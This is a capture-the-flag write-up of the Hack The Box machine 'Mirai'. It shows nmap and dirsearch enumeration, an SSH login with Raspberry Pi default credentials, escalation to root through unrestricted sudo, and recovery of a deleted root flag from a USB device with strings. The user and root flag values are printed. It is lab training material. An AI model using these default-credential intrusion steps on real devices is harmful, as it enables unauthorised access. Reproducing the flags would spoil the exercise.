



# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.48
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-18 20:26 +08
Nmap scan report for 10.10.10.48
Host is up (0.0038s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/18%OT=22%CT=1%CU=40024%PV=Y%DS=2%DC=T%G=Y%TM=620F90A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)SEQ(
OS:SP=FE%GCD=1%ISR=10E%TI=Z%CI=I%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=
OS:M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=7120%W2=71
OS:20%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M505NNSNW6
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT     ADDRESS
1   3.57 ms 10.10.14.1
2   3.83 ms 10.10.10.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.86 seconds

```

Trying to view the webpage leads us to a web page error…



I thought perhaps we needed to add the hostname to the `/etc/hosts` file

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# cat /etc/hosts                      
127.0.0.1	localhost
127.0.1.1	shiro.shiro	shiro
10.10.10.48     mirai.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Turns out the webpage is blocked?!



As a last resort, I used `dirsearch` to check if it can enumerate though the directories.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# dirsearch -u http://mirai.htb -w /usr/share/dirb/wordlists/common.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /root/.dirsearch/reports/mirai.htb/_22-02-19_21-05-27.txt

Error Log: /root/.dirsearch/logs/errors-22-02-19_21-05-27.log

Target: http://mirai.htb/

[21:05:27] Starting: 
[21:05:28] 200 -  168B  - /_vti_bin/_vti_adm/admin.dll
[21:05:28] 200 -  168B  - /_vti_bin/shtml.dll
[21:05:28] 200 -  168B  - /_vti_bin/_vti_aut/author.dll
[21:05:29] 200 -  168B  - /access_log.1
[21:05:29] 200 -  168B  - /access.1
[21:05:29] 200 -  168B  - /access-log.1
[21:05:29] 301 -    0B  - /admin  ->  http://mirai.htb/admin/
[21:05:29] 200 -  168B  - /admin.cgi
[21:05:29] 200 -  168B  - /admin.pl
[21:05:29] 200 -  168B  - /akeeba.backend.log
[21:05:30] 200 -  168B  - /application.wadl
[21:05:30] 200 -  168B  - /AT-admin.cgi
[21:05:30] 200 -  168B  - /awstats.conf
[21:05:31] 200 -  168B  - /cachemgr.cgi
[21:05:31] 200 -  168B  - /catalog.wci
[21:05:32] 200 -  168B  - /config.local
[21:05:34] 200 -  168B  - /development.log
[21:05:35] 200 -  168B  - /favicon.ico
[21:05:36] 200 -  168B  - /function.require
[21:05:36] 200 -  168B  - /getFile.cfm
[21:05:36] 200 -  168B  - /global.asa
[21:05:36] 200 -  168B  - /global.asax
[21:05:37] 200 -  168B  - /id_rsa.pub
[21:05:38] 200 -  168B  - /install.mysql
[21:05:38] 200 -  168B  - /install.pgsql
[21:05:40] 200 -  168B  - /main.mdb
[21:05:40] 200 -  168B  - /MANIFEST.MF
[21:05:40] 200 -  168B  - /manifest.mf
[21:05:40] 200 -  168B  - /master.passwd
[21:05:40] 200 -  168B  - /moving.page
[21:05:42] 200 -  168B  - /php.ini
[21:05:43] 200 -  168B  - /player.swf
[21:05:44] 200 -  168B  - /production.log
[21:05:44] 200 -  168B  - /putty.reg
[21:05:45] 200 -  168B  - /robots.txt
[21:05:47] 200 -  168B  - /sitemap.gz
[21:05:47] 200 -  168B  - /spamlog.log
[21:05:48] 200 -  168B  - /suspended.page
[21:05:49] 200 -  168B  - /tar.bz2
[21:05:49] 200 -  168B  - /tar.gz
[21:05:49] 200 -  168B  - /Thumbs.db
[21:05:49] 200 -  168B  - /thumbs.db
[21:05:50] 200 -  168B  - /upgrade.readme
[21:05:51] 200 -  168B  - /web.config
[21:05:52] 200 -  168B  - /WS_FTP.LOG

Task Completed
```

Based on the `dirsearch` results, I tried navigating to `/admin` to check if there was anything.



The website seems like a dashboard to a Raspberry Pi?

I tried logging in using the default password `raspberry` but it didn’t work.

At this point, I think there’s nothing much to do on the webpage. So let’s try using `ssh` with the default credentials `pi:raspberyy`!

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# ssh pi@10.10.10.48               
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 18 12:46:52 2022 from 10.10.14.25

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
```

Yay! It worked OwO

# Exploitation

```bash
pi@raspberrypi:~ $ ls
background.jpg  Documents  Music         Pictures  python_games  Videos
Desktop         Downloads  oldconffiles  Public    Templates
pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
    
- looks like we can run everything as sudo :) -

pi@raspberrypi:~ $ sudo bash
root@raspberrypi:/home/pi# ls
background.jpg	Documents  Music	 Pictures  python_games  Videos
Desktop		Downloads  oldconffiles  Public    Templates
root@raspberrypi:/home/pi# cd Desktop/
root@raspberrypi:/home/pi/Desktop# ls
Plex  user.txt
root@raspberrypi:/home/pi/Desktop# cat user.txt
ff837707441b257a20e32199d7c8838d
root@raspberrypi:/home/pi/Desktop# find ~/ -name root.txt
/root/root.txt
root@raspberrypi:/home/pi/Desktop# cat /root/root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

It seems like the root flag is not there… but there is a hint that it’s in a USB file system.

Let’s use `df` to view the summary of file systems.

```bash
root@raspberrypi:~# df
Filesystem     1K-blocks    Used Available Use% Mounted on
aufs             8856504 2839864   5543708  34% /
tmpfs             102396    4892     97504   5% /run
/dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
/dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs             255988       0    255988   0% /lib/live/mount/overlay
/dev/sda2        8856504 2839864   5543708  34% /lib/live/mount/persistence/sda2
devtmpfs           10240       0     10240   0% /dev
tmpfs             255988       8    255980   1% /dev/shm
tmpfs               5120       4      5116   1% /run/lock
tmpfs             255988       0    255988   0% /sys/fs/cgroup
tmpfs             255988       8    255980   1% /tmp
/dev/sdb            8887      93      8078   2% /media/usbstick
tmpfs              51200       0     51200   0% /run/user/999
tmpfs              51200       0     51200   0% /run/user/1000
```

There is an interesting filesystem mounted on `/media/usbstick` :o

```bash
root@raspberrypi:/# cd media/usbstick
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Now it seems like the flag is deleted from the filesystem…

Could we possibly retrieve it by using the `strings` command?

```bash
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

Yes! The root flag is `3d3e483143ff12ec505d026fa13e020b`.

